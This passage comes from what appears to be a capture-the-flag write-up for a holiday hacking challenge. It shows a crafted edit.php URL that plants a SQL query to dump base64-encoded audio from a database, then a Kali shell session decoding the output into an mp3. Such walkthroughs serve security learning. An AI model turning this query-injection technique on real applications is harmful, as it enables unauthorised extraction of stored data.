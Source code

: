 ```
https://analytics.northpolewonderland.com/edit.php?id=75e969b2-acc2-4179-a71b-32dcba267b4e&name=a&description=b&query=SELECT%20username,filename,TO_BASE64%28mp3%29%20from%20audio
```

Running the URL will let us know that the edit was successful!

<a href="/images/hh59.png"><img src="/images/hh59.png"></a>

Navigating to the View link and viewing the data should reveal the Base64 code of the __discombobulatedaudio7.mp3__ file.

<a href="/images/hh60.png"><img src="/images/hh60.png"></a>

From here, copy over the Base64 output to a text editor, decode it, and save it as a new __.mp3__ file.

```console
root@kali:~# gedit mp3
root@kali:~# cat mp3 | base64 --decode > discombobulatedaudio7.mp3
root@kali:~# file discombobulatedaudio7.mp3 
discombobulatedaudio7.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 128 kbps, 44.1 kHz, JntStereo
```
